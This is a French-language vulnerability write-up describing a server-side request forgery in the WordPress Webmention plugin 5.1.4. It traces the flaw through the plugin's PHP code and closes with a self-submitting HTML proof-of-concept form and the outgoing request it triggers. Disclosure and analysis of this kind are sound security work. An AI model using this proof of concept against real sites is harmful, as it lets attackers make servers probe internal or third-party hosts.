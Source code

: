 ```yaml
---
title: "SSRF dans le plugin Wordpress Webmention"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [Webmention](https://wordpress.org/plugins/webmention/) se présente de cette façon :

> A Webmention is a notification that one URL links to another. Sending a Webmention is not limited to blog posts, and can be used for additional kinds of content and responses as well.
>
> For example, a response can be an RSVP to an event, an indication that someone “likes” another post, a “bookmark” of another post, and many others. Webmention enables these interactions to happen across different websites, enabling a distributed social web.
> 
> The Webmention plugin supports the Webmention protocol, giving you support for sending and receiving Webmentions. It offers a simple built in presentation.

Le mécanisme de Webmention est très similaire à un pingback et comme souvent avec ce type de fonctionnalité, il est vulnérable à un Server Side Request Forgery (SSRF).

La version testée est la 5.1.4 et date d'il y a un mois au moment de ces lignes.

## La vulnérabilité


Le script `includes/class-receiver.php` est inclus par le script principal `webmention.php`.

On y trouve une classe qui déclare différents hooks : 

```php
/**             
 * Webmention Receiver Class
 *      
 * @author Matthias Pfefferle
 */     
class Receiver {
        /**             
         * Initialize the plugin, registering WordPress hooks
         */     
        public static function init() {
                // Configure the REST API route
                add_action( 'rest_api_init', array( static::class, 'register_routes' ) );
                // Filter the response to allow a Webmention form if no parameters are passed
                add_filter( 'rest_pre_serve_request', array( static::class, 'serve_request' ), 11, 4 );
                                        
                add_filter( 'duplicate_comment_id', array( static::class, 'disable_wp_check_dupes' ), 20, 2 );
                                        
                // Webmention helper
                add_filter( 'webmention_comment_data', array( static::class, 'webmention_verify' ), 11, 1 );
                add_filter( 'webmention_comment_data', array( static::class, 'check_dupes' ), 12, 1 );
                                        
                // Webmention data handler
                add_filter( 'webmention_comment_data', array( static::class, 'default_commentdata' ), 21, 1 );
                        
                add_filter( 'pre_comment_approved', array( static::class, 'auto_approve' ), 11, 2 );
        
                // Support Webmention delete
                add_action( 'webmention_data_error', array( static::class, 'delete' ) );

                self::register_meta();
        }
```

Les plus importants concernant la vulnérabilité sont `rest_api_init` qui indiquent d'appeler `register_routes` à l'initialisation de l'API REST et `webmention_comment_data` qui se charge d'appeler `webmention_verify`.

La première méthode est assez simple :

```php
/**
 * Register the Route.
 */
public static function register_routes() {
        register_rest_route(
                'webmention/1.0',
                '/endpoint',
                array(
                        array(
                                'methods'             => WP_REST_Server::CREATABLE,
                                'callback'            => array( static::class, 'post' ),
                                'args'                => self::request_parameters(),
                                'permission_callback' => '__return_true',
                        ),
                        array(
                                'methods'             => WP_REST_Server::READABLE,
                                'callback'            => array( static::class, 'get' ),
                                'permission_callback' => '__return_true',
                        ),
                )
        );
}
```

On y voit la déclaration de la route `webmention/1.0` qui sera traitée par la méthode `post()` de la classe `Receiver`.

Cette méthode est assez longue et effectue tout un tas d'opérations. Les commentaires sont aussi bien utiles :


```php
/**
 * POST Callback for the Webmention endpoint.
 *
 * Returns the response.
 *      
 * @param WP_REST_Request $request Full data about the request.
 *      
 * @return WP_Error|WP_REST_Response
 *              
 * @uses apply_filters calls "webmention_comment_data" on the comment data
 * @uses apply_filters calls "webmention_update" on the comment data 
 * @uses apply_filters calls "webmention_success_message" on the success message
 */                     
public static function post( $request ) {
        $source = $request->get_param( 'source' );
        $target = $request->get_param( 'target' );
        $vouch  = $request->get_param( 'vouch' );
        
        if ( ! stristr( $target, preg_replace( '/^https?:\/\//i', '', home_url() ) ) ) {
                return new WP_Error( 'target_mismatching_domain', esc_html__( 'Target is not on this domain', 'webmention' ), array( 'status' => 400 ) );
        }
        
        $comment_post_id = webmention_url_to_postid( $target );
        --- snip ---
        /**
         * Filter Comment Data for Webmentions.
         *
         * All verification functions and content generation functions are added to the comment data.
         *
         * @param array $commentdata
         *
         * @return array|null|WP_Error $commentdata The Filtered Comment Array or a WP_Error object.
         */
         $commentdata = apply_filters( 'webmention_comment_data', $commentdata );
        --- snip ---
```

Via l'application des filtres `webmention_comment_data` sur `$commentdata`, le hook défini au début va appeler `webmention_verify`.

Cette fonction est la suivante :

```php
/**
 * Verify a Webmention and either return an error if not verified or return the array with retrieved
 * data.
 *
 * @param array $data {
 *     $comment_type
 *     $comment_author_url
 *     $comment_author_IP
 *     $target
 * }
 *
 * @return array|WP_Error $data Return Error Object or array with added fields {
 *     $remote_source
 *     $remote_source_original
 *     $content_type
 * }
 *
 * @uses apply_filters calls "http_headers_useragent" on the user agent
 */
public static function webmention_verify( $data ) {
        if ( ! $data || is_wp_error( $data ) ) {
                return $data;
        }

        if ( ! is_array( $data ) || empty( $data ) ) {
                return new WP_Error( 'invalid_data', esc_html__( 'Invalid data passed', 'webmention' ), array( 'status' => 500 ) );
        }
        
        $response = Request::get( $data['source'] );
        --- snip ---
```

On voit ici qu'une requête HTTP est initiée vers l'adresse définie dans `$data['source']` correspondant au paramètre `source` récupéré par `post()`.

Voici un PoC sous forme de formulaire HTML qui s'auto-submit :

```html
<html>
<body>
<form id="myForm" method="POST" action="http://localhost:8000/index.php?rest_route=%2Fwebmention%2F1.0%2Fendpoint">
        <input type="hidden" name="source" value="http://perdu.com/" />
        <input type="hidden" name="submit" value="Ping me!" />
        <input type="hidden" name="format" value="html" />
        <input type="hidden" name="target" value="http://localhost:8000/?p=1" />
</form>
<script>document.createElement('form').submit.call(document.getElementById('myForm'));</script>
</body>
</html>
```

Ici, il génère une requête HTTP à destination de `perdu.com` :

```http
GET / HTTP/1.1
Host: perdu.com
User-Agent: WordPress/6.3.1; http://localhost:8000; Webmention
Accept: */*
Accept-Encoding: deflate, gzip, br
Connection: close
```

L'exploitation est rendue triviale par la présence d'un formulaire que le plugin ajoute en bas de chaque billet du Wordpress :

```html
<form id="webmention-form" action="http://localhost:8000/index.php?rest_route=/webmention/1.0/endpoint" method="post">
	<p>
		<label for="webmention-source">To respond on your own website, enter the URL of your response which should contain a link to this post&#8217;s permalink URL. Your response will then appear (possibly after moderation) on this page. Want to update or remove your response? Update or delete your post and re-enter your post&#8217;s URL again. (<a href="https://indieweb.org/webmention">Learn More</a>)</label>
	</p>
	<p>
		<input id="webmention-source" type="url" autocomplete="url" required pattern="^https?:\/\/(.*)" name="source" placeholder="URL/Permalink of your article" />
	</p>
	<p>
		<input id="webmention-submit" type="submit" name="submit" value="Ping me!" />
	</p>
	<input id="webmention-format" type="hidden" name="format" value="html" />
	<input id="webmention-target" type="hidden" name="target" value="http://localhost:8000/?p=1" />
</form>
```

En bref il suffit de saisir l'URL et de clicker sur `Ping me!`. La réponse de la requête HTTP n'est pas affichée par le plugin toutefois ce dernier donne un retour différent s'il est parvenu ou non à pinger le site. 
